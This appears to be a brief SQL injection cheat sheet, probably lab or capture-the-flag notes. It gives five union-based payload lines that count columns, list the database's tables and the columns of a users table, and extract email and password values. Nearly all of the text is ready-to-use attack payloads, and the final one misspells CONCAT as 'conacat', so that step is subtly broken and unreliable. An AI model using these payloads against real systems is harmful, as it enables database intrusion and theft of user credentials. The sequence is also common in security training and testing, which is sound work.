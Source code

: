 Display the amount of existing columns - test' ORDER BY 1,2,3,4,5,6,7,8 -- -

Check which column numbers can be displayed - test' UNION SELECT 1,2,3,4,5,6,7 -- -

Find the existing tables in the DB - break' UNION SELECT 1,table_name,3,4,5,6,7 FROM information_schema.tables WHERE table_schema=database() -- -

Name the columns in the users table - break' UNION SELECT 1,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_name='users' -- -

Display the login and password values from the users table - break' UNION SELECT 1,conacat(email," ",password),3,4,5,6,7 from users -- -

